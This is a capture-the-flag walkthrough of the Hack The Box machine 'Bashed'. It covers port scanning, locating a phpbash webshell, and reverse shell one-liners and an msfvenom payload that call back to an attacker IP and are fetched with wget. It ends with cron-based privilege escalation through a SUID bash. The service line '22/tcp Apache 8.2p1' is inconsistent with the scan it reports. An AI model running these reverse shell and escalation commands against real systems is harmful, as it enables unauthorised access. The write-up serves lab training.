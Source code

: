```yaml
---
title: Bashed
published: true
layout: post
---
```


<br />

---------------
Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted, the privilege escalation is based on deductions about timestamps.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/n7F_j56_pis?si=6Piixew4KatDnvxU" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.68 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Bashed/1.png)
<br />
<br />
<br />

There is **1 open ports**:
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.68 -p 80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![](/assets/Bashed/2.png)
<br />
<br />
<br />

We can see that the service corresponds to:
+ **22/tcp Apache 8.2p1**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.68 -p 80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![](/assets/Bashed/3.png)
<br />
<br />
<br />

We can see a few **folders**, but nothing really interesting.

<br />

------

<br />
### Foothold

This machine runs a **[GitHub project](https://github.com/Arrexel/phpbash)** which works as a **webshell**, the main difficulty of the foothold was **finding were the webshell is located** and **evading security measures** for reverse shells.

<br />

When entering the website, this is the first thing we can see:

![](/assets/Bashed/4.png)
<br />
<br />
<br />

A quick search in google revealed the project used in this website:

![](/assets/Bashed/5.png)
<br />
<br />
<br />

This project comprehends a semi-interactive webshell, which we can use to gain access to the machine. However, we first need to find where is this webshell located, we can use gobuster for this:

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,bak,php.bak,html -o gobuster_dir_and_file_enum_80.txt -t 25 -r
```

![](/assets/Bashed/6.png)
<br />
<br />
<br />

After checking in each folder, finally I found the webshell in ***/dev/phpbash.php***:

![](/assets/Bashed/7.png)
<br />
<br />
<br />

I tried to gain a reverse shell with commands like `bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1'` or `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 4444 >/tmp/f`, so I tried to **create a malicious file** and send it to the target machine:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=tun0 LPORT=4444 --platform linux -f elf -o revshell.elf
sudo python3 -m http.server 80
```
<br />

Now, from the webshell, we can download it, however, we have to **download it from */tmp***, as we have no write permissions:

```bash
cd $(mktemp -d)
wget http://10.10.16.9/revshell.elf
```

![](/assets/Bashed/8.png)
<br />
<br />
<br />

Now we just have to **setup a listener in our machine and execute the file**, but first we have to give the file **execution privileges**:

```bash
rlwrap nc -nlvp 4444
```

```bash
chmod 777 revshell.elf
./revshell.elf
```

![](/assets/Bashed/9.png)
<br />
<br />
<br />

And just like this we got the foothold on the machine:

![](/assets/Bashed/10.png)

We can **grab the flag**, located in the directory of the **user *arrexel***:

![](/assets/Bashed/11.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

For this privilege escalation, we first have to **pivot to another user and then to root**.

<br />

Enumerating www-data privileges, I discovered that it can **run any command without password as the user *scriptmanager***:

```bash
sudo -l
```

![](/assets/Bashed/12.png)
<br />
<br />
<br />

With this information we can pivot right away to this user:

```bash
sudo -u scriptmanager bash -i
```

![](/assets/Bashed/13.png)
<br />
<br />
<br />

Enumerating scriptmanager's files, I discovered a directory named /scripts:
```bash
find / -user $(whoami) -ls 2>/dev/null | grep -v -e "/proc/*" -e "/sys/*" -e "/run/*"
```

![](/assets/Bashed/14.png)
<br />
<br />
<br />

In this directory we can see **two files**, one owned by root and the other by scriptmanager, the **file owned by scriptmanager writes its contents to the file owned by root**, however it is **not specified in any place that it changes the ownership**, which means that **root is executing this script**.

![](/assets/Bashed/15.png)
<br />
<br />
<br />

We could confirm this by running the [PsPy](https://github.com/DominicBreuker/pspy?tab=readme-ov-file) tool, which indicates that a **CRON job** is running, which executes **every file ending in with a *.py* extension that is located in the */scripts* directory**:

![](/assets/Bashed/16.png)

Knowing this, we just have to **create a python file that set the SUID bit to the bash binary**:

```bash
echo "import os; os.system('chmod u+s /bin/bash')" > privesc.py
```

<br />

We can confirm that the script have been executed and escalate privileges:

```bash
bash -p
```

![](/assets/Bashed/17.png)
<br />
<br />
<br />

Finally, we can get our well-deserved **root flag**:

![](/assets/Bashed/18.png)
<br />
<br />
<br />

